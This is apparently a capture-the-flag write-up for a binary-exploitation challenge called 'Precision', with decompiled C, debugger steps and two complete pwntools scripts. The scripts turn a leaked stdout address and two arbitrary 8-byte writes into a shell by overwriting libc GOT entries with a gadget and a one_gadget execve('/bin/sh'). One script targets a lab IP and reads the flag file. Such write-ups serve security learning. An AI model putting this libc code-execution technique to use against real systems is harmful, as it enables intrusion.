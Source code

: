 ```yaml
---
title: Precision
category: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: THM{REDACTED}
---
```

> No description.

---

Given a binary `precision` and `libc.so.6` file.

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  void *ptr; // [rsp+8h] [rbp-8h]
  void *ptra; // [rsp+8h] [rbp-8h]

  setup(argc, argv, envp);
  printf("\nCoordinates: %p\n", stdout);
  ptr = (void *)getint();
  write(1, "\nFirst chance: ", 0xFuLL);
  fread(ptr, 8uLL, 1uLL, stdin);
  ptra = (void *)getint();
  write(1, "\nSecond chance: ", 0x10uLL);
  fread(ptra, 8uLL, 1uLL, stdin);
  perror("!");
  _exit(1337);
}
```

The `main` function is simple, it calls `setup` function and print the `stdout` address. Then it calls `getint` function to get the input and read 8 bytes from the `stdin` to the address of the input. Then it calls `getint` function again to get the input and read 8 bytes from the `stdin` to the address of the input. Then it calls `perror` function and `_exit` function.

```c
unsigned __int64 getint()
{
  char s[72]; // [rsp+0h] [rbp-50h] BYREF
  unsigned __int64 v2; // [rsp+48h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  write(1, "\n>> ", 4uLL);
  fgets(s, 64, stdin);
  return strtoul(s, 0LL, 10);
}
```

The `getint` function is simple, it reads 64 bytes from the `stdin` and convert the input to the unsigned long integer. So we can abritrary write to the memory.

Setting breakpoint to the `main` function and to analyze the `GOT` address.

```sh
pwndbg> b *main
pwndbg> r
pwndbg> got -p ./libc.so.6
```

![alt text](image.png)

Set breakpoint to each `GOT` address and analyze the registers. After some finding i found we can use `__strlen_avx2` to replace the `GOT` address to call some address.

```sh
pwndbg> b *0x7ffff7f30960
Breakpoint 2 at 0x7ffff7f30960: file ../sysdeps/x86_64/multiarch/strlen-avx2.S, line 50.
pwndbg> c
```

![alt text](image-1.png)

So now we can use `__strlen_avx2` to call the one gadget.

```sh
$ one_gadget -l1 ./libc.so.6
```

```
0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

So, `RCX`, `R9`, `RSI` and `R12` is empty, we can make this to make `RDX` to be NULL.

```sh
$ ROPgadget --binary libc.so.6 | grep "mov rdx, r12"
...
0x0000000000176df7 : mov rdx, r12 ; sub rdx, rsi ; call 0x283e0
...
```

And it call `__mempcpy_avx_unaligned_erms` got address. So we can replace the `__strlen_avx2` GOT to the address of `mov rdx, r12` gadget to clear the `RDX` register. and use `__mempcpy_avx_unaligned_erms` to call the one gadget.

```py
from pwn import *

binary = './precision'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('10.10.39.142', 9004)
# r = remote('127.0.0.1', 9004)
libc = ELF('./libc.so.6')

# gdb.attach(r, '''
#         c
#             ''')

r.recvuntil(b'Coordinates: ')
leak = r.recvline().strip()
leak = int(leak, 16)
log.info(f'Leak: {hex(leak)}')
libc_base = leak - libc.symbols['_IO_2_1_stdout_']
log.info(f'Libc base: {hex(libc_base)}')

libc.address = libc_base

__strlen_avx2 = libc_base + (0x7ffff7fac098 - 0x7ffff7d93000)
__mempcpy_avx_unaligned_erms = libc_base + (0x7ffff7fac040 - 0x7ffff7d93000)

r.sendlineafter(b'>> ', str(__strlen_avx2).encode())
r.send(p64(libc_base + 0x176df7))

r.sendlineafter(b'>> ', str(__mempcpy_avx_unaligned_erms).encode())
r.send(p64(libc_base + 0xebcf8))

r.interactive()
```

## Bonus

Another solution to call the one gadget without meet the constraints (only works on remote).

```py
from pwn import *

binary = './precision'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
# r = process(binary)
r = remote('10.10.39.142', 9004)
libc = ELF('./libc.so.6')

r.recvuntil(b'Coordinates: ')
leak = r.recvline().strip()
leak = int(leak, 16)
log.info(f'Leak: {hex(leak)}')
libc_base = leak - libc.symbols['_IO_2_1_stdout_']
log.info(f'Libc base: {hex(libc_base)}')

libc.address = libc_base

one_gadget = libc_base + 0x10DBCA
got = libc_base + (0x7ffff7fac0b8 - 0x7ffff7d93000)

r.sendlineafter(b'>> ', str(got).encode())
r.send(p64(one_gadget))

r.sendlineafter(b'>> ', str(got).encode())
r.send(p64(one_gadget))

r.sendline(b'cat flag.txt') 

r.interactive()
```

## References

- [Code execution with a write primitive on last libc.](https://github.com/nobodyisnobody/docs/tree/6960bfb204f0cfe844d75809412b0f79313f105d/code.execution.on.last.libc)
- [code execution inferno](https://github.com/nobodyisnobody/write-ups/tree/main/RCTF.2022/pwn/bfc#code-execution-inferno)
